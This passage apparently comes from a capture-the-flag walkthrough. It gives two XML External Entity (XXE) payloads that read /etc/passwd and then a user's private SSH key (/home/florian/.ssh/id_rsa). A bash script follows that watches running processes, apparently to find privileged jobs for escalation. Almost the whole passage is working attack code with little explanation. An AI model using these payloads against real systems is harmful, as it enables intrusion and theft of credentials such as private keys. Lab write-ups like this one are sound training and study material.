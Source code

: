 ```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<details>
	<subnet_mask>&xxe;</subnet_mask>
	<test></test>
</details>
```
And, once you recieve the output you'll find out that there's a user called florian that has the id_rsa vulnerable so:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/florian/.ssh/id_rsa"> ]>
<details>
	<subnet_mask>&xxe;</subnet_mask>
	<test></test>
</details>
```
procmon.sh coding:
```
#!/bin/bash

old_process=$(ps -eo user,command)
while true
do
	new_process=$(ps -eo user,command)
	diff <(echo "$old_process") <(echo "$new_process") | grep "[>\<\]" | grep -vE "kworker|command|pspy"
	old_process=$new_process
done
```